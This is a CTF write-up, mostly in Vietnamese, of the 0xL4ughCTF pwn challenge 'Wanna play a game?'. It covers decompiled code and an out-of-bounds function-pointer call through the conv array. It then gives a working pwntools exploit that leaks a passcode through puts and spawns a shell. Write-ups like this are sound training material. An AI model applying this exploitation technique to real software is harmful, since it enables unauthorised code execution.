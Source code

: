 ```yaml
---
title: [WRITE UP] - 0xL4ughCTF - Wanna play a game?
published: 2024-12-01
tags: [PWN]
category: CTF Write ups
draft: false
---
```

## General Infomation

```c
[*] '/home/alter/CTFs/0xlaugh/pwn/wanna_play_a_game/public/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

- **main()**

    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      __int64 v3; // [rsp+0h] [rbp-10h]
      __int64 v4; // [rsp+8h] [rbp-8h]

      setup(argc, argv, envp);
      printf("[*] NickName> ");
      if ( read(0, &username, 0x40uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      while ( 1 )
      {
        menu();
        v3 = read_int();
        printf("[*] Guess>");
        v4 = read_int();
        ((void (__fastcall *)(__int64))conv[v3 - 1])(v4);
      }
    }

    ```

- **easy()**

    ```c
    int __fastcall easy(__int64 a1)
    {
      if ( a1 == rand() )
        return printf("[+] NICE GUESS!!\n[*] Current Score: %lu\n", score);
      else
        return puts("[-] WRONG GUESS :(");
    }
    ```

- **hard()**

    ```csharp
    unsigned __int64 __fastcall hard(__int64 a1)
    {
      int i; // [rsp+14h] [rbp-2Ch]
      char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
      char v4; // [rsp+37h] [rbp-9h]
      unsigned __int64 v5; // [rsp+38h] [rbp-8h]

      v5 = __readfsqword(0x28u);
      strcpy(path, "<qz}<`{");
      v4 = 0;
      for ( i = 0; i <= 6; ++i )
        path[i] ^= 0x13u;
      if ( a1 == passcode )
      {
        puts("[+] WINNNN!");
        execve(path, 0LL, 0LL);
      }
      else
      {
        puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
      }
      change_passcode();
      return v5 - __readfsqword(0x28u);
    }
    ```

- **read_int()**

    ```c
    __int64 read_int()
    {
      __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

      buf[5] = __readfsqword(0x28u);
      memset(buf, 0, 32);
      printf("> ");
      if ( read(0, buf, 0x20uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      return atol((const char *)buf);
    }
    ```

- **change_passcode()**

    ```c
    int change_passcode()
    {
      int fd; // [rsp+Ch] [rbp-4h]

      fd = open("/dev/random", 0);
      if ( fd < 0 )
      {
        perror("OPEN ERROR");
        exit(-1);
      }
      if ( read(fd, &passcode, 8uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      puts("[*] PASSCODE CHANGED!");
      return close(fd);
    }
    ```


Flow của ELF được cấu trúc như sau:

1. **Nhập username**: Người dùng nhập tên của mình.
2. **Chọn chức năng**: Người dùng chọn một trong hai chế độ (`easy` hoặc `hard`).
3. **Nhập số để đoán**: Người dùng nhập giá trị dự đoán.
4. **Gọi hàm tương ứng**: Chế độ được chọn (`easy` hoặc `hard`) sẽ được gọi thông qua mảng `conv[]`.
5. **Quay lại bước 2**: Chu trình tiếp tục lặp lại.

Khi phân tích qua mã decompile, ta thấy rằng cả `username` và mảng `conv[]` đều được khởi tạo trước khi hàm `main` chạy và nằm trong `.data` section. Với điều kiện **No PIE** (Position Independent Executable bị tắt), địa chỉ của các biến này là cố định. Điều này cho phép ta kiểm soát hoặc tận dụng một trong hai (hoặc cả hai) biến để khai thác chương trình, mở ra nhiều khả năng tấn công dựa trên việc thao túng `.data` section.

Tại `conv` :

```nasm
.data:0000000000404010                 public conv
.data:0000000000404010 conv            dq offset easy          ; DATA XREF: main+A8↑o
.data:0000000000404010                                         ; main+AF↑r
.data:0000000000404010                 dq offset hard
```

Mảng `conv[]` chứa hai địa chỉ hàm: `easy` và `hard`. Khi người dùng chọn chế độ, chương trình sẽ gọi hàm tương ứng thông qua `conv` bằng cách sử dụng cú pháp `conv[input - 1](v4)`. Ở đây, `input - 1` xác định index trong mảng `conv`, tương ứng với `1` (easy - index `0`) và `2` (hard - index `1`). Biến `v4` được truyền làm tham số cho hàm được gọi. Cách triển khai này phụ thuộc hoàn toàn vào giá trị nhập từ người dùng để xác định hàm nào sẽ được thực thi, tạo cơ hội cho việc khai thác nếu người dùng có thể kiểm soát hoặc ghi đè dữ liệu trong mảng `conv`

Như vậy, chương trình tồn tại lỗi **Out-Of-Bounds (OOB)** khi gọi `conv[input - 1](v4)` mà không kiểm tra giá trị của `input`. Điều này cho phép người dùng nhập các giá trị ngoài phạm vi hợp lệ (khác 1 và 2), dẫn đến việc gọi địa chỉ bất kỳ. Kết hợp với khả năng kiểm soát biến `username`, ta có thể chỉnh sửa nội dung của `username` để chứa một địa chỉ hợp lệ. Sau đó, chương trình có thể bị điều hướng để gọi vào địa chỉ đó, mở ra khả năng khai thác. Bên cạnh đó còn có **Bad Seed khi** chương trình sử dụng `srand(time(0))` để tạo seed cho việc sinh passcode ngẫu nhiên. Tuy nhiên, với `rand()`, giá trị này có thể được dự đoán nếu thời gian chạy chương trình được biết. Dù vậy, tính năng này chỉ được sử dụng trong chế độ `easy`, và không có ý nghĩa quan trọng trong khai thác hiện tại nên có thể bỏ qua.

## Leak libc

Theo intended solution, mục tiêu là nhập đúng passcode mà binary đã khởi tạo mỗi khi chạy `main`. Để đạt được điều này, ta có thể lợi dụng hàm `puts(char *s)` để leak dữ liệu từ biến `passcode`. Vì `passcode` được khởi tạo trước khi `main` chạy và nằm trong `.data` section, ta có thể khai thác bằng cách làm như sau:

1. **Chọn địa chỉ cần leak**: Biến `passcode` có địa chỉ cố định (do No PIE), và nội dung của nó có thể được truy cập trực tiếp.
2. **Gọi `puts` với địa chỉ tùy chỉnh**: Bằng cách điều hướng một hàm hoặc mảng (như `conv[]`) để gọi `puts` với tham số là địa chỉ của `passcode`, chương trình sẽ in ra giá trị của nó.

```python
passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15') # offset / 8 từ conv -> passcode
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')
```

## Get shell

Nhập `passcode` ta leak được là đã có được shell:

```python
sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
```

- Full payload

    ```python
    #!/usr/bin/python3
    from pwncus import *

    # context.log_level = 'debug'
    exe = context.binary = ELF('./chall', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    passcode_address = 0x404060
    puts_plt = exe.plt.puts

    sa(b'[*] NickName> ', p64(puts_plt))
    sla(b'> ', b'15')
    sa(b'>', str(passcode_address).encode())

    ru(b'> ')
    # print(ru(b'\n'))
    passcode = u64(ru(b'\n').strip())
    print(f'Passcode leak: {passcode}')

    sla(b'> ', b'2')
    sa(b'>', str(passcode).encode())
    interactive()
    ```
